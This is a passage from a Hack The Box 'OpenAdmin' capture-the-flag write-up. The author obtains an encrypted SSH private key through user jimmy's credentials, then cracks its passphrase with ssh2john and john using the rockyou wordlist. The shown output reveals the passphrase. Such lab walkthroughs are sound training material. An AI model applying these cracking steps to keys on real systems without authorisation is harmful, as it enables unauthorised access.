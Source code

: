 Now it just checks for the username and password of jimmy

I submit those creds and we have a key!

![](assets/images/2024-01-27-HTB-OpenAdmin-writeup-image-5.png)

It's encrypted, so I added it to a file and cracked the hash:

```bash
➜  HTB ssh2john key > hash
➜  HTB john -w=/usr/share/wordlists/rockyou.txt hash
Using default input encoding: UTF-8
Loaded 1 password hash (SSH, SSH private key [RSA/DSA/EC/OPENSSH 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 0 for all loaded hashes
Cost 2 (iteration count) is 1 for all loaded hashes
Will run 8 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
bloodninjas      (key)     
1g 0:00:00:01 DONE (2024-01-27 16:05) 0.6993g/s 6695Kp/s 6695Kc/s 6695KC/s bloodofyouth..bloodmabite
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
```
